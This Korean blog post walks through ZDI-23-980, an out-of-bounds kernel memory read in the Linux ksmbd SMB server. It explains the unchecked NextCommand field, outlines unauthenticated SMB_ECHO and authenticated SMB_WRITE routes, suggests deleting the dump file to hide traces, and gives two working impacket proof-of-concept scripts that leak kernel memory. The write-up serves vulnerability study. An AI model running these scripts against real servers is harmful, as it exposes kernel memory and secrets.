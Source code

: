 ```yaml
---
layout: post
title: "ksmbd - 2. ZDI-23-980"
categories:
  - Pwnable
tags:
  - pwn
  - kernel
last_modified_at: 2025-10-15
---
```


# ZDI-23-980 

이전 글에 이어서 이번엔 ZDI-23-980 내용이다. 해당 취약점은 Linux 커널의 ksmbd sub system에서 발생하는 (un)authenticated(후술하겠지만 인증 필요할 수도 있고 안 할 수도 있다) OOB read 취약점이다(network-based)

사용자는 커널 메모리에서 최대 65536바이트의 읽기를 수행할 수 있다. 해당 문제는 SSL의 Heartbleed 취약점과 유사한 buffer overead로 발생한다. 

요청 패킷에 데이터 길이 정보에 대한 검사가 없어서 그대로 처리하게 된다. 요약 하자면.. 

1. 100바이트짜리 데이터 보낼게요 
: ㅇㅇ 100바이트 읽을 준비할게요 

2. 실제로는 10바이트만 보내면 
: 서버는 100바이트 읽기로 했으니 나머지 90바이트는 memory-leak으로 읽음 

## 악용 방법 1 : SMB_WRITE 

1. dump.bin에 크기 N의 SMB_WRITE 요청
2. 실제 요청 패킷에 담긴 내용은 N보다 작도록 작성 
3. SMB_READ 요청을 보내면 dump.bin 파일이 다운됨
4. 익스 흔적을 제거하기 위해 해당 파일을 삭제

## 악용 방법 2 : SMB_ECHO 

인증은 필요없음(1번은 필요하다는 거겠지..)
대신 이 요청은 2바이트만 유출 가능하다. SMB_ECHO 보낼 때 마지막 2바이트 비워서 보내면 서버가 memory-leak으로 채운다. 

이

# the underlying issue 

smb request 패킷 헤더에 있는 smb2_hdr.NextCommand 필드에 대한 검사가 부적절하기 떄문에 해당 취약점이 발생했다. NextCommand는 현재 명령 이후에 다음 명령이 시작되는 위치(오프셋)를 나타냅니다. 

# exploit 

```python 
#!/usr/bin/env python3

from impacket import smb3
from pwn import p64, p32, p16, p8


def main():
    print("[*] connecting to SMB server...")
    conn = smb3.SMB3("127.0.0.1", "127.0.0.1", sess_port=445)

    packet = smb3.SMB3Packet()
    packet['Command'] = smb3.SMB2_ECHO
    packet["Data"] = p16(0x4)
    packet["NextCommand"] = 64+4

    print("[*] sending OOB read...")
    conn.sendSMB(packet)

    print("[*] reading response...")
    rsp = conn.recvSMB().rawData
    print(rsp)


if __name__ == "__main__":
    main()
```

간단한 SMB_ECHO 버전의 PoC이다. SMB_WRITE 버전은 해당 요청 struct를 짧게 살펴보고 이에 구조를 맞춰줘야 한다. 

```c
struct smb2_write_req {
	struct smb2_hdr hdr;
	__le16 StructureSize; /* Must be 49 */
	__le16 DataOffset; /* offset from start of SMB2 header to write data */
	__le32 Length;
	__le64 Offset;
	__u64  PersistentFileId; /* opaque endianness */
	__u64  VolatileFileId; /* opaque endianness */
	__le32 Channel; /* MBZ unless SMB3.02 or later */
	__le32 RemainingBytes;
	__le16 WriteChannelInfoOffset;
	__le16 WriteChannelInfoLength;
	__le32 Flags;
	__u8   Buffer[];
} __packed;
```

```python 
#!/usr/bin/env python3

from impacket import smb3
from pwn import p64, p32, p16, p8


def main(username: str, password: str, share: str, filename: str):
    print("[*] connecting to SMB server...")
    conn = smb3.SMB3("127.0.0.1", "127.0.0.1", sess_port=445)

    print(f"[*] logging into SMB server in (username: '{username}', password: '{password}')...")
    conn.login(user=username, password=password)

    print(f"[*] connecting to tree/share: '{share}'")
    tree_id = conn.connectTree(share)

    packet = smb3.SMB3Packet()
    packet['Command'] = smb3.SMB2_WRITE

    StructureSize = 49
    DataOffset = 64 + StructureSize  # fixed packet size excl buffer
    Length = 0x10000  # max credits: 8096, so max buffer: 8096*8 (0x10000), but max IO size: 4*1024*1024 (0x400000)

    # this is ugly but acquires a RW handle for the '{filename}' file containing the memory
    file_id = conn.create(tree_id, filename, desiredAccess=smb3.FILE_READ_DATA|smb3.FILE_SHARE_WRITE, creationDisposition=smb3.FILE_OPEN|smb3.FILE_CREATE,
                            creationOptions=smb3.FILE_NON_DIRECTORY_FILE, fileAttributes=smb3.FILE_ATTRIBUTE_NORMAL, shareMode=smb3.FILE_SHARE_READ|smb3.FILE_SHARE_WRITE)

    packet["Data"] = (p16(StructureSize) + p16(DataOffset) + p32(Length) + p64(0) + file_id[:8] + p64(0) + p32(0) + p32(0) + p16(0) + p16(0) + p32(0) + p8(0))
    packet["TreeID"] = tree_id
    packet["NextCommand"] = DataOffset+Length  # the end of the buffer is past the end of the packet

    print(f"[*] sending OOB read for 65536 bytes... (writing to file '{filename}')")
    conn.sendSMB(packet)

    print("[*] closing file descriptors...")
    conn.close(tree_id, file_id)  # close fd's bcs impacket is impacket

    print(f"[*] reading file containing kernel memory: '{filename}'")
    conn.retrieveFile(share, filename, print)  # print file (containing kmem dump)


if __name__ == "__main__":
    main("user", "pass", "files", "dump.bin")
```

위와 같이 StructureSize는 49로 설정하지만 Length의 경우 0x10000(65536바이트)로 설정하여 파일 작성을 요구한다. 